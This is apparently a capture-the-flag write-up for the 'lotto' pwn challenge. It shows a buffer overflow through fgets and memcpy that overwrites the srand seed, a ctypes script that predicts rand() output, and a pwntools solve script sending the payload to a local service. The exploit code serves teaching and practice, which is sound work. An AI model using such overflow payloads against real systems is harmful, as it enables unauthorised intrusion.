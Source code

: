 from Break_The_Syntax_CTF

Solution:
we are given a bin file , which is 
```
󰣇 bts_ctf/pwn/lotto ❯ file lotto.bin                                                                                                             
lotto.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b33dec53f8f1c8957618364105b1ede0b99ccd8f, for GNU/Linux 4.4.0, not stripped
󰣇 bts_ctf/pwn/lotto ❯ checksec --file=lotto.bin                                                                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   40 Symbols	 No	0		3		lotto.bin
```

when we run the binary , it asks for 6 number as input , if all the 6 numbers are correct we get the flag, but each run there are random number generated with random seed, so need to somehow solve this.

The decompiled code , 
```
  fgets((char *)local_198,0x17b,stdin);
  __n = strlen((char *)local_198);
  memcpy(local_314,local_198,__n);
```
there is a fgets function, which takes long input than what we need , so this looks sus , when providing a long input , and looking at the GDB ,
```
*RIP  0x5555555553f1 (main+520) ◂— call srand@plt
───────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────
 ► 0x5555555553f1 <main+520>    call   srand@plt                   <srand@plt>
        seed: 0x61616364
 
   0x5555555553f6 <main+525>    lea    rax, [rbp - 0x330]
```
we can see that we can control the seed for random number.
it is at the offset of 307, so after this if we set it to know value we can find the number it generates , in my case i gonna set the value to 0xdeadbeef.

```
import ctypes

# Load C's rand() from libc
libc = ctypes.CDLL("libc.so.6")
libc.srand(0xdeadbeef)

# Generate same numbers the binary will use
for _ in range(6):
    print(libc.rand() % 49 + 1)  # assuming lotto numbers are 1–49

```
this is the python script to find the random numbers,

and
```
from pwn import *

p = remote('localhost',9000)

nums = b'11 9 42 12 16 3'
payload = nums + cyclic(307-len(nums)) + p64(0xdeadbeef) + cyclic(100)

p.sendline(payload)
p.interactive()
```
this is the solve script.